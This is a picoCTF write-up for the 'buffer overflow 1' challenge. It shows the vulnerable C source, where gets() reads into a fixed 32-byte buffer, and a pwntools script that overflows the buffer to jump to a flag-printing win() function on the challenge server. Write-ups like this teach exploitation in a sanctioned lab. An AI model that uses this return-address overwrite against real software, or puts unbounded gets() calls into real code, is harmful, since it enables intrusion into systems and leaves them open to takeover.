


**picoCTF - buffer overflow 1**

### Binary protection



This binary is poorly protected, so it shouldn't be a problem to take advantage of buffer overflow vulnerability.

### Source code


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We have `win()` function, which is responsible for printing, so what can we do?

1. Get the address of `win()` function (using for example `radare2`)
2. Overflow the buffer and override instruction pointer.

Seems to be easy!

### Exploit

```python
from pwn import *

process = remote("saturn.picoctf.net","49267")
process.recv()

payload = b"A"*44 + p32(0x080491f6)
process.sendline(payload)
process.recv()
flag = process.recv()
print(flag)
```



